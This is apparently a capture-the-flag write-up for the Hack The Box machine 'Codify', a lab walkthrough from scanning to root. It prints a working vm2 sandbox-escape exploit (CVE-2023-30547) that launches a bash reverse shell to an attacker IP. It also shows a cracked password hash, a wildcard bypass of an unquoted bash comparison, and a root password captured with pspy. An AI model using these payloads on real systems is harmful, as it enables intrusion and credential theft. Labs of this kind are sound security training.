




# Codify - Easy

Target IP: **10.129.71.64**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- --min-rate 1000 10.129.71.64 -v```

Output shows standard port 22 for ssh, port 80 running Apache 2.4.52, and port 3000 for Node.js.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```codify.htb``` to our ```/etc/hosts``` file and navigate to it.

We are greeted with this website. It seems like we can run Node.js code and have it return the output to us.



After we press the "Try it now" button, we are lead to ```/editor```, where we can add our code.



In ```/about```, it tells us that it uses the ```vm2``` library to add a layer of security.



Indeed, trying to just run a reverse shell is not allowed, as it doesn't allow the ```child_process``` module.



The hyperlink to the library lists version 3.9.16 of vm2. Looking for publicly disclosed vulnerabilities, I find that this version is vulnerable to CVE-2023-30547, where RCE is achieved by breaking out of the secure sandbox.

Following a PoC I found [here](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244), we can change the code to run a reverse shell one liner.

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'bash -i >& /dev/tcp/10.10.15.194/4444 0>&1'");
}
`

console.log(vm.run(code));
```

After we run this code on the website, we catch a shell as ```svc```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-a9wooilo4r]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.71.64 43070
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
```

We are looking to move to the ```joshua``` user.

```
svc@codify:~$ ls /home
ls /home
joshua
svc
```

In ```/var/www```, there is an unusual directory ```/contact```.

```
svc@codify:/var/www$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 12  2023 .
drwxr-xr-x 13 root root 4096 Oct 31  2023 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12  2023 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12  2023 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```

Inside of it, there is a database file.

```
svc@codify:/var/www/contact$ ls -la
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db
```

 Let's open it using ```sqlite3```.

 The ```users``` table is interesting.

 ```
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
```

We get the password hash for ```joshua```. Let's get this over to our attack box and crack it.

```
sqlite> SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Hashcat gets us the password.

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Let's log in through ssh.

```
joshua@codify:~$ whoami
joshua
```

We can proceed to get the user flag from here.

## Root Flag

```joshua``` can run a bash script as ```root```.

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Let's see what this script does.

It sets ```USER_PASS``` from reading user input, then checks it against ```$DB_PASS```. If the password is correct, then it proceeds to back up mysql. However, there is no way for us to know the actual password, so I think that the vulnerability is through command injection on ```USER_PASS``` so that when it checks the variable inside the conditional, our payload triggers.

```
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

My original plan didn't work, but I did find out that entering a wildcard passes the password check. This is because ```$USER_PASS``` is not wrapped in quotes during the check.

```
joshua@codify:/var/backups$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Additionally, there is a vulnerability in the way that the ```$DB_PASS``` variable is passed to the mysql command. Since the script will run that command and parse the variable to the value that is on ```/root/.creds```, this is essentially the same as typing the whole command including the cleartext password on the command line. That being said, if we get ```pspy64``` on the remote machine, get another ssh terminal, run ```pspy64```, then run the script, we should be able to see the cleartext password being passed.

Let's try it.

When we run the script and supply the wildcard to have it complete, we see the command that the script ran including the cleartext password of ```root```.

```
2026/09/28 22:09:14 CMD: UID=0     PID=2494   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys 
```

We can log in as ```root```.

```
joshua@codify:~$ su - root
Password: 
root@codify:~# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
